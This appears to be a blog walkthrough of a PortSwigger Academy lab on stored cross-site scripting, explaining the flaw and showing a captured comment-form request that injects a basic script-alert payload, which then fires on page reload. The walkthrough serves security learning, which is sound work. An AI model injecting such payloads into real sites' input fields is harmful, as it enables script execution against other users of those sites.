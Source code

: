 ```yaml
---
title: "Stored XSS into HTML context with nothing encoded Walkthrough"
description: "Do you really know about Stored XSS ??"
date:  2024-09-28
categories: [Walkthrough]
tags: [PortSwigger, Academy , Lab , PortSwigger Academy Lab , XSS , Cross Site Scripting, Stored XSS , HTML] 
image :
    path : https://i.imghippo.com/files/Gg1FK1727518360.gif
---
```




#### <span style="color: orange;"><b># What do you understand by Stored XSS in first place ?</b></span>

Stored cross-site scripting, often referred to as second-order or persistent XSS, occurs when an application saves data from an untrusted source and later incorporates it into its HTTP responses in an unsafe manner.

Cross-Site Scripting (XSS) is a security vulnerability that arises when an application fails to properly sanitize user input, allowing an attacker to inject malicious scripts. To mitigate XSS, it's crucial to validate, sanitize, and encode user input. I recommend reading up on this topic to gain a deeper understanding. Here's a link to my latest [blog on XSS](https://archtrmntorr.github.io/posts/XXS-For-Beginners-101/).


<span style="color: Green;"><b>Objective :</b></span>

```
we have to exploit the Stored CRoss-site Vulnerability in the comment functionality , and have to pop up with the *alert* javascript function
```

![[Image]](https://i.imghippo.com/files/BhZG71727519335.png)

-> Let's start one of the example lab of reflected xss "Stored XSS into HTML context nothing encoded"

![[Image]](https://i.imghippo.com/files/5pOMo1727519333.png)


- as mention , we have to look into the comment functionality of the website , let's enter some random data in the input section , and see how our request goes . 

![[Pasted image 20240720172150.png]](https://i.imghippo.com/files/K9SGW1727519322.png)

- Everything seems normal , our request made to the server  and our is stored on the website server , let try to inject malicious payload that can lead to alert an popup .
- let's inject our payload in the comment section , and get the request from the burp tool.

```
POST /post/comment HTTP/2
Host: 0a7c00f7035d95d581390c3700630095.web-security-academy.net
Cookie: session=TziDVGSAUJJjWzvTbDNLKfnJcBLWfvaz
Content-Length: 166
Cache-Control: max-age=0
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: https://0a7c00f7035d95d581390c3700630095.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a7c00f7035d95d581390c3700630095.web-security-academy.net/post?postId=7
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=kzCJNSxuSQOI3Nev2NVAF47xorMf4luB&postId=7&comment=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&name=nothing&email=nothign%40gmail.com&website=http%3A%2F%2Fnothing.com
```

- after injection the payload everything seems normal as before until refresh the page and sees an pop comes out and our xss payload got triggered  
- after going to that page again i got xss triggered

![[Pasted image 20240720172747.png]](https://i.imghippo.com/files/FidzU1727519328.png)

- This is how lab is solved , this type of Getting a POPUP  , we mostly submit during the POC of xss in bug bounty program where we don't just popup alert , instead we weaponize our payload and increase the impact or severity . 

![[Pasted image 20240720172907.png]](https://i.imghippo.com/files/Lwv6V1727519334.png)




- To learn `impact of stored XSS attacks` , `stored XSS in different contexts` and `How to find and test for stored XSS vulnerabilities` [blog on XSS](https://archtrmntorr.github.io/posts/XXS-For-Beginners-101/)

<br>

-------------------------------------------------------------


##### <span style="color: Green;"><b># Final Thoughts</b></span>
<br>
I hope this space continues to be helpful in your learning journey!. If you find this blog helpful, I’d love to hear your thoughts—my inbox is always open for feedback. Please excuse any typos, and feel free to point them out so I can correct them. Thanks for understanding and happy learning!. You can contact me on
[Linkedin](https://www.linkedin.com/in/hitesh-sharma-413862245) and [Twitter](https://twitter.com/archtrmntor)